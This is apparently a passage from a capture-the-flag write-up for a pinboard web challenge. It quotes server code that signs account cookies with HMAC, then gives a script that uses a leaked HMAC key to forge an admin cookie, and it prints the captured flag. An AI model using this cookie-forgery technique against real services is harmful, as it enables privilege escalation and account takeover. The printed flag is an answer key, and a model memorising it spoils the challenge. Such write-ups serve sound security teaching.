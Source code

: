 ```
    if (('password' in req.body) && ('username' in req.body)) {
      u = req.body.username.replace(/[^a-zA-z0-9]/g,''); // protect against
      p = req.body.password.replace(/[^a-zA-z0-9]/g,''); // …injections

      var accountinfo = "(dp0\nS'username'\np1\nS'"+u+"'\np2\nsS'password'\np3\nS'"+p+"'\np4\nsS'admin'\np5\nI00\ns."
      var signature = crypto.createHmac('sha256', HMAC_KEY);
      signature.update(accountinfo);
      res.cookie('accountinfo', accountinfo, { maxAge: 31536000 }) // 1 year
      res.cookie('signature', signature.digest('hex'), { maxAge: 31536000 })
    }
    res.redirect("/"); // this is the absolute path, /
  }
  else {
    res.redirect('/?error'); // this is the relative path /account/?error
  }
  res.end();
});
router.get('/logout', function (req, res, next) {
  res.clearCookie('accountinfo');
  res.clearCookie('signature');
  res.redirect("/");
  res.end();
});

module.exports = router;
```

`not the flag. you must become admin`

We can now sign our cookie with admin set to 1 !


```
var crypto = require('crypto');
var accountinfo = "(dp0\nS'username'\np1\nS'agix'\np2\nsS'password'\np3\nS'agix'\np4\nsS'admin'\np5\nI01\ns."

const HMAC_KEY = 'gkcB2CSY1VZ7sri2dmafyyHl0qa8tJ65';

var signature = crypto.createHmac('sha256', HMAC_KEY);
signature.update(accountinfo);
console.log(signature.digest('hex'));

console.log(escape(accountinfo));
```

`The flag is:<pre>Jg7CGdFs3GaefwlPP8L3gPcnfY6hg9XV</pre>`

## Other write-ups and resources

* <https://frederik-braun.com/teachers-pinboard-hack-lu-2015.html>
